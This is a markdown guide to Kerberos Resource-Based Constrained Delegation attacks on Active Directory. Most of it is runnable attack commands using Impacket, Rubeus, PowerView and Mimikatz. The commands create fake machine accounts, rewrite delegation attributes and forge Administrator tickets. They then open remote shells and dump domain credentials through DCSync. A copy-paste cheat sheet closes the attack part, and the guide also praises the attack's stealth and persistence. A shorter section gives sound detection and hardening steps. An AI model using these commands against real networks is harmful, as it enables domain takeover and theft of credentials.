






# RBCD (Resource-Based Constrained Delegation) Attack Guide

A complete guide to privilege escalation via Kerberos delegation abuse.

---

## Table of Contents

1. [Kerberos Delegation Basics](#kerberos-delegation-basics)
2. [What is RBCD](#what-is-rbcd)
3. [RBCD Attack Prerequisites](#rbcd-attack-prerequisites)
4. [Attack Flow (Sequence Diagrams)](#attack-flow-sequence-diagrams)
5. [Attack Commands](#attack-commands)
6. [Practical Examples](#practical-examples)
7. [Detection and Defense](#detection-and-defense)
8. [Related Attack Techniques](#related-attack-techniques)

---

## Kerberos Delegation Basics

### Types of Delegation

Active Directory has 3 types of Kerberos delegation:

1. **Unconstrained Delegation**
2. **Constrained Delegation**
3. **Resource-Based Constrained Delegation** (RBCD)

### Why Delegation Is Needed



---

## What is RBCD

### Key Characteristics

- **Configured on the computer account side** (traditional delegation is configured on the delegating side)
- Controlled via the **msDS-AllowedToActOnBehalfOfOtherIdentity** attribute
- Can be configured without Domain Admin privileges (only write permission required)
- Uses **S4U2Self** and **S4U2Proxy**

### Differences from Traditional Delegation



---

## RBCD Attack Prerequisites

### ✅ Required Conditions

1. **Write permission on the target computer**

    - `GenericWrite`
    - `GenericAll`
    - `WriteProperty` (msDS-AllowedToActOnBehalfOfOtherIdentity)
    - `WriteDACL`
2. **A computer account you control**

    - Ability to create a new computer account (`ms-DS-MachineAccountQuota > 0`)
    - Or control of an existing computer account
3. **Access to the target**

    - Target has a Service Principal Name (SPN)
    - Target is joined to the domain

### Example Attack Scenarios

- A user has `GenericAll` permission over their own computer (default configuration)
- Privileged service accounts such as Exchange Server are misconfigured
- Excessive permissions are granted via GPO

---

## Attack Flow (Sequence Diagrams)

### Full Attack Sequence



### S4U Extension Details



---

## Attack Commands

### 1. Check Permissions

**PowerView (Windows)**

```powershell
# Import PowerView
Import-Module .\PowerView.ps1

# Check permissions on the target
Get-DomainObjectAcl -Identity WEB01 | Where-Object {$_.SecurityIdentifier -eq (Get-DomainUser john).objectsid}

# Or search for specific permissions
Get-DomainObjectAcl -Identity WEB01 -ResolveGUIDs | Where-Object {$_.ActiveDirectoryRights -match "GenericWrite|GenericAll|WriteProperty"}
```

**BloodHound (recommended)**

```cypher
// BloodHound query: computers controllable from john
MATCH (u:User {name:"JOHN@CORP.LOCAL"})-[r:GenericAll|GenericWrite|WriteProperty|WriteDacl]->(c:Computer)
RETURN u,r,c

// Shortest attack path
MATCH p=shortestPath((u:User {name:"JOHN@CORP.LOCAL"})-[*1..]->(c:Computer))
WHERE ANY(rel in relationships(p) WHERE type(rel) IN ["GenericAll","GenericWrite","WriteProperty","WriteDacl"])
RETURN p
```

**Linux (Impacket)**

```bash
# Check permissions with dacledit.py
impacket-dacledit -action read -principal john -target WEB01$ corp.local/john:'Password123!' -dc-ip 10.10.10.100
```

### 2. Check MachineAccountQuota

**PowerShell**

```powershell
# Check Quota for the entire domain
Get-DomainObject -Identity "DC=corp,DC=local" -Properties ms-DS-MachineAccountQuota

# Current number of created computers
(Get-DomainComputer).Count
```

**Linux**

```bash
# Check with ldapsearch
ldapsearch -x -H ldap://10.10.10.100 -D "cn=john,cn=users,dc=corp,dc=local" -w 'Password123!' -b "dc=corp,dc=local" "(objectClass=domain)" ms-DS-MachineAccountQuota

# Example output: ms-DS-MachineAccountQuota: 10
```

### 3. Create a Fake Computer Account

**Powermad (Windows)**

```powershell
# Import Powermad
Import-Module .\Powermad.ps1

# Create a new computer account
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force)

# Verify
Get-DomainComputer FAKE01
```

**Impacket (Linux) - recommended**

```bash
# Create computer with addcomputer.py
impacket-addcomputer -computer-name 'FAKE01$' -computer-pass 'Password123!' -dc-ip 10.10.10.100 corp.local/john:'Password123!'

# Example output:
# [*] Successfully added machine account FAKE01$ with password Password123!
```

**StandIn (Windows - alternative)**

```powershell
# Create computer with StandIn
.\StandIn.exe --computer FAKE01 --make
```

### 4. Configure RBCD

**PowerView (Windows)**

```powershell
# Configure RBCD with PowerView

# Get the SID of FAKE01$
$ComputerSid = Get-DomainComputer FAKE01 -Properties objectsid | Select-Object -ExpandProperty objectsid

# Create Security Descriptor
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

# Set on WEB01's msDS-AllowedToActOnBehalfOfOtherIdentity
Set-DomainObject -Identity WEB01 -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

**Impacket rbcd.py (Linux) - recommended**

```bash
# Configure RBCD with rbcd.py
impacket-rbcd -delegate-from 'FAKE01$' -delegate-to 'WEB01$' -dc-ip 10.10.10.100 -action write corp.local/john:'Password123!'

# Example output:
# [*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
# [*] Delegation rights modified successfully!
# [*] FAKE01$ can now impersonate users on WEB01$ via S4U2Proxy
```

**Verify**

```bash
# Verify the configured RBCD
impacket-rbcd -delegate-to 'WEB01$' -dc-ip 10.10.10.100 -action read corp.local/john:'Password123!'

# Example output:
# [*] Accounts allowed to act on behalf of other identity:
# [*]     FAKE01$       (S-1-5-21-...)
```

### 5. Execute S4U Attack (Obtain Ticket)

**Impacket getST.py (Linux) - recommended**

```bash
# Obtain Administrator service ticket with getST.py
impacket-getST -spn cifs/web01.corp.local -impersonate Administrator -dc-ip 10.10.10.100 corp.local/FAKE01$:'Password123!'

# Output:
# [*] Getting TGT for user
# [*] Impersonating Administrator
# [*] Requesting S4U2self
# [*] Requesting S4U2Proxy
# [*] Saving ticket in Administrator@cifs_web01.corp.local@CORP.LOCAL.ccache

# Specify multiple services
impacket-getST -spn cifs/web01.corp.local -spn http/web01.corp.local -impersonate Administrator -dc-ip 10.10.10.100 corp.local/FAKE01$:'Password123!'
```

**Rubeus (Windows)**

```powershell
# S4U attack with Rubeus
.\Rubeus.exe s4u /user:FAKE01$ /rc4:[NTLM hash of FAKE01$] /impersonateuser:Administrator /msdsspn:cifs/web01.corp.local /ptt

# Or
.\Rubeus.exe s4u /user:FAKE01$ /password:Password123! /impersonateuser:Administrator /msdsspn:cifs/web01.corp.local /ptt

# /ptt = Pass-the-Ticket (automatically injected into memory)
```

**Calculate NTLM Hash**

```bash
# Calculate NTLM hash for FAKE01$
python3 -c 'import hashlib; print(hashlib.new("md4", "Password123!".encode("utf-16le")).hexdigest())'

# Example output: 32ED87BDB5FDC5E9CBA88547376818D4
```

### 6. Access the Target

**Linux (Impacket)**

```bash
# Set the ticket in the KRB5CCNAME environment variable
export KRB5CCNAME=Administrator@cifs_web01.corp.local@CORP.LOCAL.ccache

# SMB access
impacket-smbexec -k -no-pass web01.corp.local

# Or PSExec
impacket-psexec -k -no-pass Administrator@web01.corp.local

# Or secretsdump
impacket-secretsdump -k -no-pass web01.corp.local

# WMI execution
impacket-wmiexec -k -no-pass Administrator@web01.corp.local
```

**Windows**

```powershell
# When the ticket has been injected into memory with /ptt

# SMB access
dir \\web01\c$

# PSExec
.\PsExec.exe \\web01 cmd

# WinRM
Enter-PSSession -ComputerName web01

# Remote command execution
Invoke-Command -ComputerName web01 -ScriptBlock { whoami }
```

### 7. Access with Additional SPNs

```bash
# Obtain ticket for HTTP service
impacket-getST -spn http/web01.corp.local -impersonate Administrator -dc-ip 10.10.10.100 corp.local/FAKE01$:'Password123!'
export KRB5CCNAME=Administrator@http_web01.corp.local@CORP.LOCAL.ccache

# LDAP service
impacket-getST -spn ldap/web01.corp.local -impersonate Administrator -dc-ip 10.10.10.100 corp.local/FAKE01$:'Password123!'

# HOST service (includes multiple services)
impacket-getST -spn host/web01.corp.local -impersonate Administrator -dc-ip 10.10.10.100 corp.local/FAKE01$:'Password123!'
```

---

## Practical Examples

### Scenario 1: User Has Permission Over Their Own PC

In many environments, users have `GenericAll` permission over their own computer.

```bash
# 1. Check permissions
impacket-dacledit -action read -principal john -target JOHN-PC$ corp.local/john:'Password123!' -dc-ip 10.10.10.100
# Confirm GenericAll permission

# 2. Create fake computer
impacket-addcomputer -computer-name 'EVILPC$' -computer-pass 'EvilPass123!' -dc-ip 10.10.10.100 corp.local/john:'Password123!'

# 3. Configure RBCD
impacket-rbcd -delegate-from 'EVILPC$' -delegate-to 'JOHN-PC$' -dc-ip 10.10.10.100 -action write corp.local/john:'Password123!'

# 4. Obtain ticket
impacket-getST -spn cifs/john-pc.corp.local -impersonate Administrator -dc-ip 10.10.10.100 corp.local/EVILPC$:'EvilPass123!'

# 5. Access
export KRB5CCNAME=Administrator@cifs_john-pc.corp.local@CORP.LOCAL.ccache
impacket-psexec -k -no-pass Administrator@john-pc.corp.local
```

### Scenario 2: Escalation to Domain Controller

When you have `GenericWrite` permission on a DC (rare but powerful):

```bash
# 1. Check permissions on DC
impacket-dacledit -action read -principal john -target DC01$ corp.local/john:'Password123!' -dc-ip 10.10.10.100

# 2. Create fake computer
impacket-addcomputer -computer-name 'FAKEDC$' -computer-pass 'FakeDC123!' -dc-ip 10.10.10.100 corp.local/john:'Password123!'

# 3. Configure RBCD
impacket-rbcd -delegate-from 'FAKEDC$' -delegate-to 'DC01$' -dc-ip 10.10.10.100 -action write corp.local/john:'Password123!'

# 4. Obtain ticket for DCSync
impacket-getST -spn ldap/dc01.corp.local -impersonate Administrator -dc-ip 10.10.10.100 corp.local/FAKEDC$:'FakeDC123!'

# 5. Run DCSync
export KRB5CCNAME=Administrator@ldap_dc01.corp.local@CORP.LOCAL.ccache
impacket-secretsdump -k -no-pass -just-dc corp.local/Administrator@dc01.corp.local

# Domain Admin hash obtained!
```

### Scenario 3: Already Controlling a Computer Account

```bash
# When you already know the password of a computer account
# (e.g., via LAPS vulnerability, plaintext password discovery, etc.)

# 1. Controlled computer: COMPROMISED01$
# Password: CompPass123!

# 2. Target: WEB01$
# Permission: COMPROMISED01$ has GenericWrite over WEB01$

# 3. Configure RBCD
impacket-rbcd -delegate-from 'COMPROMISED01$' -delegate-to 'WEB01$' -dc-ip 10.10.10.100 -action write corp.local/COMPROMISED01$:'CompPass123!'

# 4. Obtain ticket and attack
impacket-getST -spn cifs/web01.corp.local -impersonate Administrator -dc-ip 10.10.10.100 corp.local/COMPROMISED01$:'CompPass123!'

export KRB5CCNAME=Administrator@cifs_web01.corp.local@CORP.LOCAL.ccache
impacket-psexec -k -no-pass Administrator@web01.corp.local
```

---

## Detection and Defense

### Detection Methods

**1. Event Log Monitoring**

```powershell
# Event ID 4742: Computer account change
Get-WinEvent -FilterHashtable @{LogName='Security';Id=4742} | Where-Object {$_.Message -match "msDS-AllowedToActOnBehalfOfOtherIdentity"}

# Event ID 4741: Computer account creation
Get-WinEvent -FilterHashtable @{LogName='Security';Id=4741}

# Event ID 4769: Kerberos service ticket request
# Detect S4U2Self/S4U2Proxy
Get-WinEvent -FilterHashtable @{LogName='Security';Id=4769} | Where-Object {$_.Message -match "Ticket Options.*0x40810000"}
```

**2. Audit RBCD Configuration**

```powershell
# Check RBCD configuration on all computers
Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {$_.ObjectAceType -eq "msDS-AllowedToActOnBehalfOfOtherIdentity"}

# Or
Get-ADComputer -Filter * -Properties msDS-AllowedToActOnBehalfOfOtherIdentity | Where-Object {$_.'msDS-AllowedToActOnBehalfOfOtherIdentity' -ne $null}
```

**3. Monitor for New Computer Accounts**

```powershell
# Computers created recently (within 24 hours)
Get-ADComputer -Filter {whenCreated -gt $((Get-Date).AddDays(-1))} -Properties whenCreated | Select-Object Name,whenCreated
```

### Defenses

**1. Set MachineAccountQuota to 0**

```powershell
# Set at the domain level
Set-ADDomain -Identity corp.local -Replace @{"ms-DS-MachineAccountQuota"="0"}

# Verify
Get-ADDomain | Select-Object -ExpandProperty DistinguishedName | Get-ADObject -Properties ms-DS-MachineAccountQuota
```

**2. Restrict Write Permissions on Computer Accounts**

```powershell
# Remove unnecessary GenericWrite/GenericAll permissions
# Audit with BloodHound before removing
```

**3. Use the Protected Users Group**

```powershell
# Add privileged users to Protected Users
Add-ADGroupMember -Identity "Protected Users" -Members Administrator,krbtgt

# Protected Users cannot use delegation
```

**4. Deploy RBCD Monitoring Script**

```powershell
# Periodically audit RBCD configuration
$computers = Get-ADComputer -Filter * -Properties msDS-AllowedToActOnBehalfOfOtherIdentity
foreach ($computer in $computers) {
    if ($computer.'msDS-AllowedToActOnBehalfOfOtherIdentity') {
        Write-Warning "$($computer.Name) has RBCD configured!"
    }
}
```

---

## Related Attack Techniques

### Unconstrained Delegation Attack



**Attack Commands**

```powershell
# Find Unconstrained Delegation servers
Get-DomainComputer -Unconstrained

# Extract TGTs
.\Rubeus.exe dump

# Or Mimikatz
sekurlsa::tickets /export
```

### Constrained Delegation Attack



**Attack Commands**

```bash
# Find accounts with Constrained Delegation
Get-DomainComputer -TrustedToAuth
Get-DomainUser -TrustedToAuth

# Attack with getST
impacket-getST -spn cifs/target.corp.local -impersonate Administrator -hashes :NTLMHASH corp.local/serviceaccount$
```

### Shadow Credentials Attack

Similar to RBCD but certificate-based:

```bash
# Set Shadow Credentials with pywhisker
python3 pywhisker.py -d corp.local -u john -p 'Password123!' --target WEB01$ --action add

# Authenticate with certificate
certipy auth -pfx web01.pfx -dc-ip 10.10.10.100
```

---

## Troubleshooting

### Error 1: "KDC_ERR_BADOPTION"

**Cause**: The target does not have the `TrustedToAuthForDelegation` flag set.

**Solution**:

```bash
# Check whether WEB01$ is configured to accept delegation
Get-ADComputer WEB01 -Properties TrustedToAuthForDelegation
```

### Error 2: "KRB_AP_ERR_MODIFIED"

**Cause**: Invalid ticket or time synchronization issue.

**Solution**:

```bash
# Sync time with NTP
sudo ntpdate 10.10.10.100

# Or
sudo timedatectl set-ntp true
```

### Error 3: "STATUS_ACCESS_DENIED"

**Cause**: RBCD configuration is incorrect, or the SPN does not exist.

**Solution**:

```bash
# Re-verify RBCD configuration
impacket-rbcd -delegate-to 'WEB01$' -action read corp.local/john:'Password123!' -dc-ip 10.10.10.100

# Check SPNs
setspn -L WEB01
```

---

## Cheat Sheet

### Complete Attack Flow (Copy-Paste Ready)

```bash
# === 1. Check permissions ===
impacket-dacledit -action read -principal john -target WEB01$ corp.local/john:'Password123!' -dc-ip 10.10.10.100

# === 2. Create fake computer ===
impacket-addcomputer -computer-name 'FAKE01$' -computer-pass 'Password123!' -dc-ip 10.10.10.100 corp.local/john:'Password123!'

# === 3. Configure RBCD ===
impacket-rbcd -delegate-from 'FAKE01$' -delegate-to 'WEB01$' -dc-ip 10.10.10.100 -action write corp.local/john:'Password123!'

# === 4. Obtain ticket ===
impacket-getST -spn cifs/web01.corp.local -impersonate Administrator -dc-ip 10.10.10.100 corp.local/FAKE01$:'Password123!'

# === 5. Access ===
export KRB5CCNAME=Administrator@cifs_web01.corp.local@CORP.LOCAL.ccache
impacket-psexec -k -no-pass Administrator@web01.corp.local
```

### Key Tools

| Tool | Purpose |
|---|---|
| **PowerView** | Permission enumeration and RBCD configuration (Windows) |
| **Impacket rbcd.py** | RBCD configuration (Linux) |
| **Impacket getST.py** | S4U attack / ticket acquisition |
| **Rubeus** | S4U attack (Windows) |
| **BloodHound** | Attack path visualization |
| **Powermad** | Computer account creation |

---

## Summary

RBCD attacks are powerful and popular for the following reasons:

✅ **No Domain Admin required** - executable with only GenericWrite
✅ **Difficult to detect** - uses legitimate Kerberos protocol
✅ **Highly flexible** - can impersonate any user
✅ **Persistence-friendly** - leaving the RBCD configuration in place makes re-entry easy
